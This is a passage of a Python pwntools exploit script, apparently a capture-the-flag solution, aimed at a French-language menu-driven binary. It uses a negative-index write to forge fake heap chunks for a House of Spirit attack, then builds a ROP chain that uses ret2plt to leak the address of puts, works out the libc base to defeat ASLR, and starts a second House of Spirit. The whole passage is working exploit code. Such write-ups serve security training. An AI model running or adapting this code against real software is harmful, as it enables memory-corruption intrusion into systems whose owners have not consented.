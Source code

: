 ```python
p.sendline(b"oui")

p.recvuntil(b"modifier ?")
p.sendline(b"-49")
p.recvuntil(b"coup :")
p.sendline(bytes([(house_of_spirit_address >> 56 & 0xff)]))
p.recvuntil(b"[oui/non]")
p.sendline(b"oui")

# Forging a fake chunks on our buffer
for i in range(160, 160+96):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([fake_chunks[i-160]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Preparing a ropchain in order to leak ASLR using ret2plt
rop = ROP(elf)
rop.puts(elf.got["puts"])
rop.call(elf.sym["main"])
print("ROP :", rop.chain(), len(rop.chain()))

# Copying our ropchain into the controlled buffer
for i in range(104, 104 + len(rop.chain())):
    p.recvuntil(b"modifier ?")
    p.sendline(str(i).encode())
    p.recvuntil(b"coup :")
    p.sendline(bytes([list(rop.chain())[i-104]]))
    p.recvuntil(b"[oui/non]")
    p.sendline(b"oui")

# Finishing the modifications
p.recvuntil(b"modifier ?")
p.sendline(b"0")
p.recvuntil(b"coup :")
p.sendline(b"A")
p.recvuntil(b"[oui/non]")
p.sendline(b"non")
log.info("[+] House of Spirit successful")


# Retrieving the leaked adress of puts
leak_puts = p.recvline().strip()
leak_puts = u64(leak_puts + b"\x00\x00")
print("[+] Leaked address of puts :", hex(leak_puts))

# Calculating libc base address
libc.address = leak_puts - libc.sym["puts"]
print("[+] Libc base address :", hex(libc.address))

# Creating a new combo in order to clean things up
p.recvuntil(b">")
p.sendline(b"1")
p.recvuntil(b"capable :")
p.send(b"A"*104)

# Performing the House of Spirit a second time
p.recvuntil(b">")
p.sendline(b"2")
p.recvuntil(b"2. Improviser un nouveau combo")
p.sendline(b"1")
```
